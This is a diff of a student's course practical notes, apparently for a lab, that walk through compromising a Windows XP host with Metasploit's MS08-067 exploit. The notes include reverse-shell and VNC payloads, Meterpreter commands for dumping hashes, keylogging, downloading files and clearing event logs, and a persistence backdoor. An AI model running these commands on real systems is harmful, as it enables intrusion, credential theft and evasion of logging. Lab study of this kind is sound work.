

Before and after one commit to dongyi-guo/my-study, a Markdown page: 715/prac1.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/715/prac1.md
+++ b/715/prac1.md
@@ -72,16 +84,19 @@ hydra -l <LoginUsername> -P <PathToPasswordDictionary> <HostIPAddress> <ServiceP
 
 ## Question 4
 
-Windows XP can be exploited with VNC injection, giving GUI view or control, or Meterpreter, a CLI tool to perform malicious actions on target host.
+Windows XP can be exploited by:
 
-For VNC injection, while in Metasploitable Framework prompt:
+* VNC injection, returns a GUI view or control
+* Meterpreter, returns a command prompt to perform miscellaneous actions on target host.
+
+For VNC injection, while in Metasploitable Framework prompt ( ```msf6>``` ):
 
 ```bash
 use exploit/windows/smb/ms08_067_netapi
 set payload windows/vncinject/reverse_tcp
-set lhost <KaliIPAddress>
-set rhost <XPIPAddress>
-set viewonly false
+set LHOST <KaliIPAddress>
+set RHOST <XPIPAddress>
+set ViewOnly false
 exploit
 ```
 
@@ -90,39 +105,49 @@ For Meterpreter:
 ```bash
 use exploit/windows/smb/ms08_067_netapi
 set payload windows/meterpreter/reverse_tcp
-set lhost <KaliIPAddress>
-set rhost <XPIPAddress>
+set LHOST <KaliIPAddress>
+set RHOST <XPIPAddress>
 exploit
 ```
 
-During Meterpreter session, commands that could be useful:
+During Meterpreter session ( ```meterpreter>``` ), commands that could be useful:
 
 ```bash
-cd
-ls
-pwd
+cd # Change directory
+ls # List directory
+pwd # Current directory
 sysinfo # System information
 ipconfig # Network information
-screenshot
+screenshot # Take a screenshot from target host
+hasdump # Dump all user's hashes on the screen
+search -f <filename> # Search file based on name in current directory
+download <RemotePath> <LocalPath> # Remote download file from target host to local
+# Remember the path for download command has to be Unix type, for Windows '\',
+# Either double it '\\' or change back to '/'.
+
+clearev # Clean event logs
+
 getpid # Get current process ID
-ps
+ps # List current Processes on target host
 migrate <processID> # Migrate to process ID
-search -f <filename> # Search file based on name
-dowload <RemotePath> <LocalPath> # Remote download file from target host to local
 keyscan_start # Start key logging, only works with good process privilege.
 keyscan_dump # Dump key logging, only works with good process privilege.
 keyscan_stop # Stop key logging, only works with good process privilege.
-clearev # Clean event logs
+
+# Backgroud current session
+background
+bg
+# Or ctrl + z
 ```
 
-To add backdoor on the Meterpreter session, background the session, then in MSF:
+To add backdoor on the Meterpreter session, background the session, then in MSF prompt:
 
 ```bash
 use exploit/windows/local/persistence
-set lhost <KaliIPAddress>
-set lport 445
-set startup SYSTEM # DO NOT lowercase SYSTEM, as it is parameter value
-sessions -l # Get the meterpreter session's ID
+set LHOST <KaliIPAddress>
+set LPORT 445
+set STARTUP SYSTEM # DO NOT lowercase SYSTEM, as it is parameter value
+sessions # Get the meterpreter session's ID
 set session <MeterpreterSessionID>
 exploit
 ```
@@ -132,9 +157,24 @@ Then, use multi/handler to listen the incoming connection:
 ```bash
 use multi/handler
 set payload windows/meterpreter/reverse_tcp
-set lhost <KaliIPAddress>
-set lport 445
-run
+set LHOST <KaliIPAddress>
+set LPORT 445
+run # alias of exploit, use any
 ```
 
-After rebooting, XP will send back the connection and Kali will enter Meterpreter prompt automatically.
+After that, if XP gets rebooted, it will send back the connection and Kali will enter Meterpreter prompt automatically.
+
+## Additionally
+
+During MSF prompts, several things:
+
+```bash
+search <Keyword> # Search exploits via keyword
+show options # Give current configurable parameters for current exploit and payload
+show paylaods # Show possible payloads for current exploit
+show targets # Show possible targets for current exploit
+```
+
+* Use ```setg``` instead of ```set``` to preserve parameter values across different exploits with the same parameter name.
+* The parameter names are case-insensitive, but if the parameter values are given accepted value (Accepted: ...), you must match the case:
+
````
Also changed, not shown: other parts of 715/prac1.md (+31 -15 lines).
